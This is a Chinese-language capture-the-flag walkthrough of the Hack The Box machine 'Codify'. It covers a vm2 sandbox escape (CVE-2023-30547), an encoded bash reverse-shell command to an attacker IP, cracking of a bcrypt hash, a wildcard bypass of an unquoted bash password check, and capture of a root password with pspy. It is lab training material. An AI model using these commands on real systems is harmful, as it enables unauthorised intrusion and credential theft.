


## Summary

*`OS: Linux` `Difficulty: Easy`*

以简单的知识点也能构建出这么巧妙的一台，非常有趣。

### Relevant Skills

- nmap
- SQLite
- shell script
- JTR


### Attack Path Overview

{ width='450' }


## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>`

开放端口：
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
```

## 攻击路径规划·漏洞分析

常规靶机，22端口SSH的版本较新，优先度放低。先看80端口的Web。


## 80端口

- robots.txt：无
- 网页信息：点击 `About Us` 可得知其使用[vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16)。版本为3.9.16。
- 网页功能：一个测试Node.js代码的网页，有个Editor界面可编写代码运行测试。
- 子域枚举：无特别发现


## Initial Access

### PoC ([CVE-2023-30547](https://security.snyk.io/vuln/SNYK-JS-VM2-5426093))

根据vm2的版本号3.9.16，简单谷歌之后在github发现一个漏洞提交与PoC：<https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244>  
复制其PoC代码粘贴到Editor运行后无反应，本身也不太懂Node.js，让ChatGPT解释了一下明白代码执行在 `execSync()` 处。遂将命令改为 `id` 后再次运行，成功显示结果：



接下来就简单了，使用反弹shell的命令：`echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQ==" |base64 -d|bash`

成功反连：

```bash
svc@codify:~$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ pwd
/home/svc
svc@codify:~$ ls
pwned  script.sh
```

## 横向移动

可以发现该用户没有user flag。看家目录有另一个用户：joshua，估计要横向移动。

一番探索后发现一个DB文件：
```bash
svc@codify:/var/www/contact$ file tickets.db 
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
svc@codify:/var/www/contact$ which sqlite3
/usr/bin/sqlite3

sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

### 破解密码

```bash
└─$ echo 'joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash.txt

└─$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt 
 ... 
spongebob1       (joshua)     
 ...
```

`su` 或者 `ssh` 成功登陆joshua用户：

```bash
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

## flag: user

```bash
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt 
808c ... f408
```


## Privilege Escalation

### Internal Recon

有当前用户的凭据所以先看了眼 `sudo -l`：

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

查看这个脚本：

```bash
joshua@codify:~$ ls -aihl /opt/scripts/mysql-backup.sh
401117 -rwxr-xr-x 1 root root 928 Nov  2 12:26 /opt/scripts/mysql-backup.sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

是进行数据库的备份，执行时要求输入密码匹配 `$DB_PASS`，但是值得注意的是，if条件判断 `$DB_PASS == $USER_PASS` 并未用双引号包围变量。所以可以利用shell的通配符绕过认证——即可以在要求输入密码时输入“*”。

执行：

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

注意到系统提示的 `[Warning] Using a password on the command line interface can be insecure.`

那么就用pspy看看，再次运行脚本后发现这一段：

```bash
 ...
023/11/11 04:51:08 CMD: UID=0     PID=34733  | /usr/bin/echo Backing up database: sys 
2023/11/11 04:51:08 CMD: UID=0     PID=34735  | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/11 04:51:08 CMD: UID=0     PID=34734  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys
 ...
```


## flag: root

```bash
joshua@codify:~$ su -
Password: 
root@codify:~# ls
root.txt  scripts
root@codify:~# cat root.txt 
bb7c ... dbb4
```


---

## 总结·后记

2023/11/11

似乎第一次遇到所有知识点都撞到我会的范围里的……第一次觉得这才是Easy机器啊！